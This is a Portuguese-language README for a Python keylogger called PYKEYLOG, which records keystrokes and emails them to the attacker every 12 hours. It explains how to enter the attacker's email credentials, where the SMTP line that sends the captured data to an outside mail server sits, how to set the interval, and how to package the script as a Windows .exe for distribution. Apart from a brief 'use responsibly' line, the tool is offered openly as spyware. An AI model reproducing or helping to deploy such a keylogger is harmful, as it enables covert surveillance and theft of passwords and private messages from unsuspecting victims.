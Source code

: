 <h1 align="center"> PYKEYLOG </h1>
Keylogger em Python, feito da forma mais simples possível para copiar as teclas pressionadas e enviar a cada 12 horas para o e-mail do atacante.
# Como usar:

Altere: EMAIL_ADDRESS = "youremail@example.com" e EMAIL_PASSWORD = "yourpassword"
Altere também na linha 34: server = smtplib.SMTP(host="smtp-mail.outlook.com", port=587) - para o smtp e porta do email que você for usar
Você também pode alterar o intervado de tempo que o e-mail será enviado com as teclas pressionadas em: SEND_REPORT_EVERY = 43200  # (seconds)
No meu caso, para não ficar chegando muitos emails, coloquei para receber a cada 12 horas. Use sempre em segundos.

# Lembre-se:
Importar as bibliotecas:
smtplib
pynput
threading
email.mime.text

## USE COM RESPONSABILIDADE!

# Transformar em .exe
Após a finalização do script, utilizei auto_py_to_exe para transformar o arquivo py em exe.
Enjoy
